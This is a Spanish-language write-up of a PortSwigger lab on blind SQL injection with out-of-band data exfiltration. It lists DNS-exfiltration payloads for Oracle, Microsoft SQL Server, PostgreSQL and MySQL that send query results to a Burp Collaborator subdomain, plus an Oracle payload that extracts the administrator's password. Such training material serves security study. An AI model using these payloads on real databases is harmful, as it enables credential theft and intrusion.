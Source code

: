 ```yaml
---
title: Blind SQL injection with out-of-band data exfiltration - portswigger
date: 2024-08-04
categories: [Write up, portswigger]
tags: [sql injection]      # TAG names should always be lowercase
---
```


## DNS lookup with data exfiltration

Puede hacer que la base de datos realice una búsqueda de DNS en un dominio externo que contenga los resultados de una consulta inyectada. Para ello, deberá utilizar [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) para generar un subdominio exclusivo de Burp Collaborator que utilizará en su ataque y, luego, sondear el servidor de Collaborator para recuperar detalles de cualquier interacción de DNS, incluidos los datos exfiltrados.

|   |   |
|---|---|
|Oracle|`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|(SELECT YOUR-QUERY-HERE)\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`|
|Microsoft|`declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`|
|PostgreSQL|`create OR replace function f() returns void as $$   declare c text;   declare p text;   begin   SELECT into p (SELECT YOUR-QUERY-HERE);   c := 'copy (SELECT '''') to program ''nslookup '\|p\|'.BURP-COLLABORATOR-SUBDOMAIN''';   execute c;   END;   $$ language plpgsql security definer;   SELECT f();`|
|MySQL|The following technique works on Windows only:  <br>`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`|

En este ejercicio debemos de obtener las credenciales del usuario administrator, por lo que nos ayudaremos de `burp collaborator`, para ello usamos la siguiente `query`.

```c
' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)-- -
```

La consulta debemos de ponerla dentro de : `' || (<query>)`. Luego hacemos url encode y podemos enviarla para obtener las credenciales del usuario.

![20240805125502.png](20240805125502.png)

